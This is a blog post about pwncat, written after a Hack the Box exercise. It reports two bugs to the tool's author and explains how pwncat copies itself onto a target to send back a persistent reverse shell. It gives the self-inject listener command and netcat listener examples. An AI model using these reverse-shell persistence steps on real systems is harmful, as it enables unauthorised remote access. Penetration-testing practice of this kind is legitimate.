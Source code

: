 ```yaml
---
layout: post
author: dalemazza
title: Pwncat - Netcat on steroids!  
date: 2020-06-21
category: blog
tags: blog
---
```



## Do you hate when you Ctrl+c in a reverse shell and lose it? I did until I found Pwncat!  

<p align="center">
  <img width="400" height="400" src="/assets/pwncat.jpg">
</p>

Recently I was doing a machine on Hack the box, I managed to get a reverse shell on the machine but it was flaky and kept crashing on me. This got me thinking that surely someone somewhere has made a script to fix this problem?  

After some google fu I stumbled across this [github](https://github.com/cytopia/pwncat) repo. It had everything I had ever dreamed about in one tool! Some highlights include:  

* Port Scanning
* Self-injecting reverse shell
* Bind shell
* Reverse shell
* Port forwarding
* Protection from Ctrl+c !!!!!!
* Evade IPS and Firewall
* Plus much more!

I had to try this tool! So I cloned the repo and put it to the test. I quickly wanted to try the `--self-inject` function out. To my surprise it caught the reverse shell but did not work after after upgrading the shell to TTY.  
<p>&nbsp;</p>

## Bug 1  


During the process to upgrade the shell to TTY I found that the shell would crash after the last stage of returning to the shell with the command `fg`. I then approached the creator on github and entered the issue as a bug. The creator quickly resolved the issue, It was related to how the shell interpreted the “enter” after the `fg`. The bug was fixed, Now to try again!  
<p>&nbsp;</p>

## Bug 2  


Now I had a full TTY shell. I went back and tried to catch the shell again but with the `--self-inject` flag. After setting up the pwncat listener with the inject flag `pwncat -l 1234 --self-inject /bin/bash:10.10.14.28:1234` I quickly learnt that it was not injecting into a python binary. Once again I submitted this as a bug and he quickly solved the issue. This time it was related to the way the reverse shell sends back the shell, he had to change the way pwncat behaved to interpret many types of reverse shell. 1 day later he sent me a message saying he had a fix! Third times the charm.
<p>&nbsp;</p>
---
## How does it work?  

As the client (reverse shell) connects to the your host machine it does the following:  

1. Enumerate Python availability and versions on the target.
2. Dump itself base64 encoded onto the target.
3. Use the target’s Python to decode itself.
4. Use the target’s Python to start itself as an unbreakable reverse shell back to you .

Once this is done the client will constantly send back a reverse shell to the ip/port you specified in pwncat, So if you break the shell all you have to do is set up a listener of your choice and listen for the reverse shell. This is massive as most reverse shells rely on you running an exploit each time to spawn the shell, This way you only have to run the exploit once.  
<p>&nbsp;</p>
---

## Heres how to do it  

First you need a client with a reverse shell set up for your machine and port. Next you need to run this command:  
```bash
pwncat -l 1234 –self-inject /bin/bash:10.10.14.28:1234
```
The command breaks down into the following, pwncat listening on port 1234, running the inject flag, spawning a bash shell to the ip and port of your machine. It should like a little something like this.  

<p align="center">
  <img width="1024" height="505" src="/assets/pwncat1.png">
</p>
#### Figure 1. The result of injecting to a unbreakable shell

Now your shell should be unbreakable! to test this press Ctrl+c , this should break the shell. Now all you have to do it run a listener here are some examples:
```bash
nc -lvnp 1234
pwncat -l 1234
```  
<p align="center">
  <img width="1024" height="221" src="/assets/pwncat2.png">
</p>
#### Figure 2. Here I Ctrl+c out of the shell, Then use a simple listener to catch the shell again.

You now have your shell back without re-running exploits or reverse shells! I hope this helps you out.
